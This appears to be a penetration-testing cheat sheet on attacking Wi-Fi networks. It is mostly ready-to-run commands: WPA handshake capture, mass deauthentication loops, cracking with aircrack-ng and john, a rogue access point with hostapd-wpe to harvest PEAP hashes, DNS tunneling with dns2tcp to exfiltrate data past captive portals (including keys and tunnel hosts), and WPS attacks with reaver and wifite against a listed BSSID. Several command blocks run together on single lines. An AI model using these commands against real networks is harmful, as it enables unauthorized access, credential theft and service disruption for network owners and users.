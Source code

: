# WIFI

## **WPA**

Capture Handshake using airodump-ng + local crack using john or hashcat =&gt; cleartext password

### 1. Monitor mode

```sh
sudo airmon-ng start wlan0
```

### 2. Listen for specific bssid

```sh
sudo airodump-ng -a mon0
```

> find you target bssid \(mac\) and chanel

```sh
airodump-ng -c 6 --bssid <MAC-BOX-CLIENT> --showack -w capture mon0
```

> don't forget the -w paramter to save the handshake !!

### 3. DeAUTH

```sh
aireplay-ng mon0 -0 5 -b <MAC-BOX-CLIENT>
```

DEAUTH specific client device

```sh
aireplay-ng -0 5 -a <MAC-BOX-CLIENT> -c <MAC-DEVICE-CLIENT> mon0
```

DEAUTH massif \(each client connected at each bssid of an essid\)

```sh
for bssid in cat bssid_deauth.lst; do for mac in cat client_deauth.lst; do aireplay-ng mon.wlan0 -0 5 -a $bssid -c $mac --ignore-negative-one -e <ESSID_CLIENT> ; done ; done
```

### 4. Handshake cracking

Handshaked captured ? go crack it !!

**Crack with aircrack**
```sh
aircrack-ng capture-01.cap --wordlist=<wordlist>
```

Crack with john

```bash
wpaclean capture.cap-01.clean.cap capture.cap-01.cap
aircrack-ng capture.cap-01.clean.cap -J capture.cap-01.hccap
hccap2john capture.cap-01.hccap > capture.cap-01.hccap.john
john --wordlist=<wordlist> capture.cap-01.hccap.john
```

Crack with hashcat

_**todo**_

---

## **PEAP**

1. `apt install hostapd-wpe`
2. Configure same channel and essid than the client's one in hostapd conf
3. Disconnect clients devices \(see WPA - 3. DeAUTH\)

Log PEAP : hash client format john

```sh
cat peap_client_log.txt | grep username -A2 | sed '/^--/d' | awk '{print $2}' | tr -d ':' | awk 'NR%3{printf $0":";next;}1' | awk -F ':' '{print $1"::::"$3":"$2}'
```

*Vulnerability fix : GPO validate certificate*

---

## **Captive portal**

### DNS tunneling

Try DNS tunneling to exfiltrate data over the internet

[http://requestbin.net/dns](http://requestbin.net/dns)

## Troubleshooting

### unblock wifi card

```bash
sudo nmcli nm wifi off
sudo nmcli radio wifi off
sudo rfkill unblock wlan
```

---

## **Todo**

### PEAP hash replay

* Spoof AP and replay hashed captured
  * [Sensepost berate_ap](https://github.com/sensepost/berate_ap)
  * [Sensepost sycophant](https://github.com/sensepost/wpa_sycophant)

### dns2tcp manually

création du tunel

```sh
dns2tcpc -z dnstun.lexsi.net -c -d 1 -l 9000 -r ssh 192.168.128.27 -k _bijour@lexsi_ dns2tcpc -z dnstun.lexsi.net -c -d 1 -l 9000 -r ssh 192.168.1.29 -k Q5xTEGHgqa8 ssh rsshdummy@127.0.0.1 -p 9000 -D 9010 -N -i rssh\_dummy\_dv\_new
```

mise en place du proxy local

```sh
ssh rssh@127.0.0.1 -p 9000 -D 9010 -N -i rssh.ssh
```

### WPS

```bash
airmon-ng check airmon-ng start wlan1 
wifite --showb --wpa --mon-iface wlan0mo 
airodump-ng -a wlan1mon --wps --essid-regex EDL time reaver -i wlan1mon -c 1 -b E8:FC:AF:9A:C9:B0 -K 1 
airodump-ng -a wlan1mon --essid-regex Internet 
wifite --showb --wpa --mon-iface wlan0mon --aircrack --pyrit --tshark --cowpatty --power 40
airmon-ng check airmon-ng start wlan0 
airodump-ng wlan0mon --wps --essid-regex VICTIM reaver -i wlan0mon -c $channel -b $bssid -K 1
```